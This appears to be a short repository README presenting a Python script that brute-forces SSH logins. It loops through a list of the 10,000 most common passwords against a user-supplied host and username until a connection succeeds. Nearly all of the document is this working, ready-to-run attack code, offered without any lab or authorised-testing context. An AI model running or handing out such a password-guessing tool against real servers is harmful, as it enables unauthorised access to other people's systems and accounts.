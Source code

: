 This is a stupid simple bruteforce attack.

We're going through a password list and making shh connections untill

__a)__ run out of passwords __b)__ get a successfull match.

```python
from pwn import *
import paramiko

host = input("Enter the host address: ")
username = input("Enter the username: ")

attempts = 0

with open("10k-most-common.txt", 'r') as password_list:
    for password in password_list:
        password = password.strip('\n')
        try:
            print("Attempt:{} | {}".format(attempts, password))
            response = ssh(host=host,user=username,password=password, timeout=1)
            if response.connected():
                print("Password found{}".format(password))
                response.close()
                break
            response.close()
        except Exception as e:
            print("Error:", e)
        attempts += 1
print('Finished running through password file')
```
